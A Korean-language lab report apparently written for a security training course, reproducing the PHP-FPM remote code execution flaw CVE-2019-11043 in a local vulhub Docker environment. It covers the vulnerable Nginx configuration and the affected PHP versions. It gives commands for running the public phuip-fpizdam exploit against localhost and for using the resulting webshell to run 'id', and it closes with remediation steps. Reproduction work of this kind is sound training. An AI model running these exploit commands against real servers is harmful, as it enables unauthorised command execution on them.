





# CVE-2019-11043 PHP-FPM 원격 코드 실행 PoC 보고서
> 화이트햇 스쿨 3기 26반- [윤성준 (@ysj-main)](https://github.com/ysj-main)

## 1. 취약점 정보

### 1.1 개요  
CVE-2019-11043는 Nginx와 PHP-FPM을 조합해 사용할 때, Nginx의 FastCGI 처리 과정에서 `fastcgi_split_path_info` 설정과 PHP-FPM 내부 버퍼 오버플로우가 결합되어 발생하는 원격 코드 실행(RCE) 취약점입니다.

### 1.2 발생 원인  
- **Nginx 설정**  
  ```nginx
  location ~ [^/]\.php(/|$) {
      fastcgi_split_path_info ^(.+?\.php)(/.*)$;
      include fastcgi_params;
      fastcgi_param SCRIPT_FILENAME /var/www/html$fastcgi_script_name;
      fastcgi_pass php:9000;
      …
  }
  ```
- **PHP-FPM 버전**  
  PHP-FPM 7.1.x 미만, 7.2.x 미만, 7.3.x 미만 버전에서 PATH_INFO 처리를 위해 할당된 내부 버퍼를 넘어선 데이터를 복사하면서 FCGI 프로토콜 데이터 영역을 덮어쓰게 됩니다.

### 1.3 영향 받는 버전  
- PHP 7.1.x 7.1.33 미만  
- PHP 7.2.x 7.2.24 미만  
- PHP 7.3.x 7.3.11 미만  

## 2. 참고 자료

- NVD CVE-2019-11043: https://nvd.nist.gov/vuln/detail/CVE-2019-11043  
- vulhub PoC 디렉토리: https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043  
- Exploit Tool (phuip-fpizdam): https://github.com/neex/phuip-fpizdam  

## 3. PoC 실행 흐름

### 3.1 환경 준비 (Ubuntu 24.04 기준)
- go 언어 설치
```bash
sudo apt update
sudo apt install golang-go -y
```

### 3.2 취약 컨테이너 실행  
```bash
cd ~/kr-vulhub/php/CVE-2019-11043
sudo docker compose up -d
```


- `php:7.2.10-fpm` 및 `nginx:1` 컨테이너가 실행됩니다.


### 3.3 기본 동작 확인
터미널로 동작 확인
```bash
curl http://localhost[yourIP]:8080/index.php
# → hello world
```

브라우저로 동작 확인
```
http://localhost[yourIP]:8080/index.php
```


### 3.4 Exploit 도구 클론 및 실행  
```bash
#  https://github.com/neex/phuip-fpizdam를 사용하여 익스플로잇이 가능합니다.
cd ~
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam

# Exploit
go run . "http://localhost[yourIP]:8080/index.php"

```
- “Success! Was able to execute a command…” 메시지가 뜨면 RCE 취약점 재현 성공입니다.  
- 탐지 실패 시:
  ```bash
  go run . "http://localhost[yourIP]:8080/index.php" --skip-detect --qsl 1790 --pisos 152
  ```

### 3.5 WebShell 테스트  
터미널로 WebShell 테스트
```bash
curl "http://localhost:8080/index.php?a=id"
# → uid=www-data(…) gid=… groups=…
```
브라우저로 WebShell 테스트
```
http://localhost:8080/index.php?a=id
```


## 4. 결론 및 주의사항

- **부분적 취약**: PHP-FPM 자식 프로세스 중 일부만 영향을 받으므로, 동일 명령을 여러 번 시도해야 할 수 있습니다.  
- **환경 의존성**: Nginx의 `location` 블록 설정과 PHP-FPM 버전이 정확히 일치해야 취약이 발현됩니다.  
- **대응 방안**:  
  1. PHP를 7.1.33, 7.2.24, 7.3.11 이상 버전으로 업그레이드  
  2. Nginx 설정에서 `fastcgi_split_path_info` 대신 안전한 파일 처리 방식을 적용하거나 해당 블록을 제거
